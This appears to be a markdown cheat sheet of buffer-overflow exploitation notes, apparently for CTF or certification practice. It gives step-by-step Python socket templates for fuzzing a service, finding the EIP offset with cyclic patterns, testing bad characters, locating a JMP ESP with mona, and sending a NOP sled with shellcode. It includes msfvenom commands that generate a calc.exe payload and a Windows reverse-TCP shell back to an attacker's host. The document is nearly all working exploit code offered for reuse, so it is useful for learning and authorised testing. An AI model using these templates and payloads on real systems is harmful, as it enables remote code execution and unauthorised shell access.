 # BufferOverflow Notes
Thanks to Legacyy for being a great teacher! Please check out his buffer overflow guide!  
[Legacyy](https://github.com/iilegacyyii)  
[Legacyy's cheat sheet](https://github.com/iilegacyyii/x32-BOF-Notes)  

### 1 - Creating a socket to test the program.

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf += b"<FUNC> "
buf += b"A"*1000

s.send(buf)
print(s.recv(1024))
```

### 2 - Creating your cyclic pattern and overwriting your EIP

```
msf-pattern_create -l 1234
```
```
msf-pattern_offset -q <EIPAddress>
```

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

cyclic_pattern = b"AddCyclicPattern"

buf = b""
buf += b"<FUNC> "
buf += cyclic_pattern

s.send(buf)
print(s.recv(1024))
```

### 3 - Testing for bad characters



```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

badchar_test = ""
badchars = [0x00,0x0D] 

for i in range(0x00, 0xFF + 1): # range(0x00, 0xFF) only returns up to 0xFE
        if i not in badchars:
                badchar_test += chr(i)

with open("badchars.bin", "wb") as f:
    f.write(badchar_test)

offset = <OFFSET>

buf = b""
buf += b"<FUNC> "
buf += "A" * offset
buf += b"BBBB"
buf += badchar_test

s.send(buf)
print(s.recv(1024))
```

### 4 - Finding your JMP ESP

```
!mona compare -a esp -f "c:\path\to\badchars.bin"
```

```
!mona jmp -r esp -cpb "\x00\x0A"
```

### 5 - Testing command execution

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset
buf += jmp_esp
buf += b"\xCC\xCC\xCC"

s.send(buf)
print(s.recv(1024))
```

```
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

```
msfvenom -p windows/shell_reverse_tcp -b '\x00\x0A' -f python --var-name shellcode_shell LHOST="<IP>" LPORT=<PORT> EXITFUNC=thread
```

```python
import socket
import struct

HOST = "<Remote IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

shellcode_calc =  b""
shellcode_calc += b"<ShellcodePayload>"

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset 
buf += jmp_esp
buf += b"\x90" * 100
buf += shellcode_calc

s.send(buf)
print(s.recv(1024))
```

